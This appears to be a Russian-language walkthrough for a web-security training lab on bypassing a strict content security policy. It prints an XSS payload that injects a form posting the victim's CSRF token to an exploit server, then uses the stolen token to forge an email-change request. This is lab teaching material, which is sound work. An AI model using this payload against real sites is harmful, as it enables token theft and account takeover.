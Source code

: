 В этой лаборатории используется строгий CSP, который блокирует исходящие запросы на внешние веб-сайты.

Чтобы решить лабораторную работу, сначала выполните атаку с использованием межсайтового скриптинга, которая обходит CSP и извлекает CSRF-токен имитируемого пользователя-жертвы с помощью Burp Collaborator. Затем вам нужно изменить адрес электронной почты имитируемого пользователя на hacker@evil-user.net.

Вы должны пометить свой вектор словом «Щелчок», чтобы побудить имитируемого пользователя щелкнуть по нему. Например:

<a href="">Click me</a>
Вы можете войти в свою учетную запись, используя следующие учетные данные:wiener:peter

1. Войдите в лабораторию, используя учетную запись, указанную выше.

2. Проверьте функцию изменения адреса электронной почты. Обратите внимание, что в параметре есть уязвимость XSS email.

3. Перейдите на сервер эксплойтов и добавьте следующий код, заменив YOUR-LAB-IDи YOUR-EXPLOIT-SERVER-IDна идентификатор вашей лаборатории и идентификатор сервера эксплойтов соответственно.

<script>
window.location= "https://YOUR.LAB.URL/my-account?email=%22%3E%3C/form%3E%3Cform%20action=%22https://YOUR.EXPLOIT.URL/exploit%22%3E%3Cbutton%20type=%22Submit%22%3EClick me%3C/button%3E"
</script>

4. Нажмите «Сохранить», а затем «Доставить эксплойт жертве». Если пользователь посещает веб-сайт, содержащий этот вредоносный скрипт, и нажимает ссылку «Нажмите меня», пока он все еще находится в системе на веб-сайте лаборатории, его браузер отправит запрос, содержащий его токен CSRF, на ваш вредоносный веб-сайт.

![image](https://github.com/user-attachments/assets/9e6709fe-b140-4679-9268-e09026ce1c14)


5. Перейдите на экслойт сервере в "Журнал" там будет CSRF токен

![image](https://github.com/user-attachments/assets/c497c3dd-c94f-4096-bb9e-9be456a8090d)

6. Включив функцию перехвата Burp, вернитесь к функции изменения адреса электронной почты в лаборатории и отправьте запрос на изменение адреса электронной почты на любой случайный адрес.

![image](https://github.com/user-attachments/assets/18bbc9c8-5bec-4d99-961b-583c907c4298)

7. В Burp перейдите к перехваченному запросу и измените значение параметра email на любое@любое.любое

8. Щелкните правой кнопкой мыши по запросу и в контекстном меню выберите «Engagement tools», а затем «Generate CSRF PoC». Всплывающее окно показывает как запрос, так и HTML-код CSRF, который он генерирует. В запросе замените токен CSRF на тот, который вы украли у жертвы ранее.

![image](https://github.com/user-attachments/assets/38710d6f-6333-453e-84b7-bd598089eec4)

9. Нажмите «Регенерировать», чтобы обновить CSRF HTML так, чтобы он содержал украденный токен, затем нажмите «Копировать HTML», чтобы сохранить его в буфере обмена.

10. Отмените запрос и отключите функцию перехвата.

11. Вернитесь на сервер эксплойта и вставьте CSRF HTML в тело. Вы можете перезаписать скрипт, который мы ввели ранее.

12. Нажмите «Сохранить» и «Доставить эксплойт жертве». Адрес электронной почты пользователя будет изменен на любое@любое.любое
